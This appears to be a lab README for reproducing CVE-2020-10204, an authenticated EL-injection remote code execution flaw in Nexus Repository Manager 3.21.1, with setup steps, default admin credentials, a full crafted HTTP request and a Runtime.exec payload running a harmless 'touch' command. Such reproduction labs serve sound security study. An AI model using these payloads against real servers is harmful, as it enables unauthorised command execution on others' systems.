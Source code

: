 # Nexus Repository Manager 3 Authenticated Remote Code Execution (CVE-2020-10204)

[中文版本(Chinese version)](README.zh-cn.md)

Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.

In the version <= 3.21.1, a EL injection vulnerability has been discovered that allows for an attacker with an administrative account on Nexus Repository to execute arbitrary code by crafting a malicious request to Nexus Repository. This issue is patch bypass of CVE-2018-16621.

References:

- https://support.sonatype.com/hc/en-us/articles/360044356194-CVE-2020-10204-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10204/README.md
- https://github.com/jas502n/CVE-2020-10199

## Vulnerable environment

Execute following command to start a Nexus Repository Manager version 3.21.1:

```
docker compose up -d
```

After the server is started, browse `http://your-ip:8081` to see the home page of Nexus. Login the admin panel with administrator account `admin:admin` and finish the initialize wizard.

## Exploit

Copy your cookie and CSRF token then send following request:

```
POST /service/extdirect HTTP/1.1
Host: your-ip
Content-Length: 223
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
NX-ANTI-CSRF-TOKEN: [csrf-token]
Content-Type: application/json
Accept: */*
Origin: http://192.168.1.3:8081
Referer: http://192.168.1.3:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: NX-ANTI-CSRF-TOKEN=[csrf-token]; NXSESSIONID=[sessionid]
Connection: close

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["nxadmin$\\B{233*233}"]}],"type":"rpc","tid":11}
```

As you can see, EL expression `233*233` is executed:

![](1.png)

Refer to <https://github.com/jas502n/CVE-2020-10199>, use EL expression payload `$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/success')}` to execute command `touch /tmp/success`:

![](2.png)
